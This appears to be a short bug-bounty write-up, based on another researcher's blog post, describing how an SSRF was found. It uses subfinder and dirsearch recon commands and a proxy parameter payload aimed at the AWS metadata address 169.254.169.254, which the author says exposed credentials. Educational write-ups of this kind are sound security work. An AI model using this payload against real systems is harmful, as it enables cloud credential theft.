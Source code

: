 # My First Case of SSRF Using Dirsearch 🐿️

1. I started by getting all the subdomains and directories of my target using Subfinder
```
subfinder -d target.com | tee target.txt
python3 dirsearch.py -l target.txt --deep-recursive
```
2. I found a URL that was like: 
```
targetconnect-dev.target.com/proxy.stream?origin=https://google.com
```
3. I tried using an Out Of Band Interaction Tester (OOB) like BurpSuite Collaborator and it worked. I received a pingback.
4. I now searched the parameter on Google and found a tweet where someone tried to use the AWS Metadata URL, so I tried using it and it worked.<br>
```
/proxy.stream?origin=http://169.254.169.254/latest/metadata/
```
I was able to view the AWS Metadata credentials.

<br>&nbsp;
## Credit
Based on [Mba-oji Chiagoziem](https://goziem.medium.com/my-first-case-of-ssrf-using-dirsearch-b916f0f1e94b)'s writeup.
<br>&nbsp;

## Support
You can Follow [me](https://twitter.com/MeAsHacker_HNA) on twitter or
<br><br><a href="https://www.buymeacoffee.com/NafisiAslH" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/v2/default-yellow.png" alt="Buy Me A Coffee" style="height: 60px !important;width: 217px !important;" ></a>
